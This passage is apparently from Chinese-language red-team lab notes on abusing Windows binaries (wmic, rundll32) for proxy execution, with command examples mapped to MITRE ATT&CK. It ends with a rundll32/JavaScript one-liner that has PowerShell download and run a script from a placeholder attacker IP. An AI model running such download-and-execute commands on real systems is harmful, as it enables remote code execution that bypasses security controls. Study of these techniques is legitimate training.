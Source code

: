         DOS
        
        ```
        C:\Users\thm> wmic.exe process call create "calc.exe"
        # 输出:
        # Executing (Win32_Process)->Create()
        # Method execution successful.
        # Out Parameters:
        # instance of __PARAMETERS
        # {
        #         ProcessId = 1740; // 新创建的 calc.exe 进程的 PID
        #         ReturnValue = 0;  // 返回值为 0 表示成功
        # };
        ```
        

##### 3. Rundll32 (`rundll32.exe`)

- **合法用途**: `rundll32.exe` 是微软内置的工具，用于加载和运行 32 位或 64 位动态链接库 (DLL) 文件中的特定导出函数。
- **恶意滥用**: 红队操作人员可以利用 `rundll32.exe` 来运行任意的恶意 DLL、执行 JavaScript 或 PowerShell 脚本，甚至执行其他命令。此技术被 MITRE ATT&CK 框架识别为 **T1218.011 - Signed Binary Proxy Execution: Rundll32**。
    - **路径**:
        - 64位 Windows: `C:\Windows\System32\rundll32.exe` (这是64位版本的 `rundll32.exe`)
        - 64位 Windows 上的 32位版本: `C:\Windows\SysWOW64\rundll32.exe` (这是32位版本的 `rundll32.exe`, 用于加载32位DLL)
    - **执行 `.exe` (通过 JavaScript)**:
        
        DOS
        
        ```
        C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc.exe\");window.close()");
        ```
        
        这个命令利用 `mshtml.dll` 的 `RunHTMLApplication` 功能来执行嵌入的 JavaScript 代码，该 JScript 代码通过 `WScript.Shell` ActiveX 对象来运行 `calc.exe`。
    - **下载并执行 PowerShell 脚本 (通过 JavaScript)**:
        
        DOS
        
        ```
        C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://<AttackBox_IP>/script.ps1');");
        ```
        